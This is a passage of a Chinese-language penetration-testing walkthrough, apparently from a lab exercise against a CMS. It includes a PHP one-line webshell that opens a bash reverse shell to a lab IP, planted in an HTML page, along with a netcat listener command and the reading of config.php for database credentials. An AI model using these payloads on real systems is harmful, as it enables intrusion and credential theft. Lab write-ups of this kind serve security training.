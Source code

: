 Files 中还存在大量文件, 可以看到权限分配, 也是一个很大的攻击面。

![7-3.png](7-3.png)

#### 一句话木马

php 有很多一句话木马, 这里用了一个简单的**反弹shell**(Reverse Shell):

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.170.135/443 0>&1'");?>
```

>   注意反弹 Shell 监听时使用的是 Kali 的 IP, 毕竟是反弹到 Kali 终端上。

将以上代码嵌入 Article.html 中, 并在 kali 中开启对应端口的监听, 再打开网页:

```bash
sudo nc -lvnp 443
```

---

![8.png](8.png)

输入 `ls` 可以看到目录下存在 `config.php` 文件, 有建站经验一下就能反应过来, 建站一般要选数据库, 这个数据库的账密就很有可能存在这个文件中, 用 `cat` 看一下:

显示了数据库账号密码。
